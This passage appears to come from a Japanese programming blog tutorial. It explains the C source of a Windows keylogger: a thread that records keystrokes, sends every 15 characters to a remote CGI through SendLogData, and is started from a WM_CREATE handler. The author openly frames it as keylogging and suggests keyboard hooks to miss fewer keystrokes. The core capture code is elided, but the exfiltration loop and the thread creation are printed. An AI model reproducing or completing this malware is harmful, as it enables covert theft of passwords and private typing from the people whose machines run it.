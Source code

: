 　ではでは、この関数の呼び出し元に行きましょう。

```
DWORD WINAPI Logger(LPVOID lpvoid)
{
    DATA *Data \= (DATA *)lpvoid;
    UINT len \= 0;

.......
........（中略）
.........

       if( !(TEXT_SIZE > len) ){
            if(SendLogData(MainMemory, len)){
                MessageBox(Data\->hWnd, "HTTPエラー", "Error", MB_OK);
                DestroyWindow(Data\->hWnd);
            }
            ZeroMemory(MainMemory, sizeof(MainMemory));
            len \= 0;
        }
        Sleep(100);
    }

    return 0;
}
```

　中略の部分にはGetAsyncKeyState関数でのどす黒いキーロギングのソースが並
びます(^^。フックを利用してもよいのですが、メンドクサイのでとりあえずこれ
でいきましょう。
　Logger関数は、スレッドとして作成され処理されています。
　「WINAPI」がついてる関数は、スレッドとして実行される関数のようですが詳
しくはしらないので気になるならば調べてみてください。
　Sleepで100ミリ秒待ってるので、つまり0.1秒ごとにキーの入力を調べてます。
しかし。0.1秒は以外に長いもので、結構キーストロークを見逃します。やはり
実用的にするならばフックを利用したほうがよさそうですね。
　プログラム自体は単純で、TEXT_SIZEとlenが同じになったら、即ちMainMemory
が埋まったら、MainMemoryにはいっている文字列を送信するためにSendLogData
に渡します。
　そして、ゼロクリアして再び、MainMemoryに溜め込みます。
　TEXT_SIZEはプログラムの最初に15としているので15文字溜まったらCGIに送信
されます。気にいらないなら適当に変更してもよいです。

　では、次はこの関数を実行したスレッド作成部分にいきます。

```
    case WM_CREATE:
        Data.hWnd       \= hWnd;
        Data.ThreadFlag \= TRUE;
        
        DWORD ID;
        if((Thread \= CreateThread(NULL, 0, Logger, (LPVOID)&Data, 0, &ID)) \=\= NULL){
            MessageBox(hWnd, "スレッドが作成できませんでした", "Error", MB_OK);
            DestroyWindow(hWnd);
        }
```
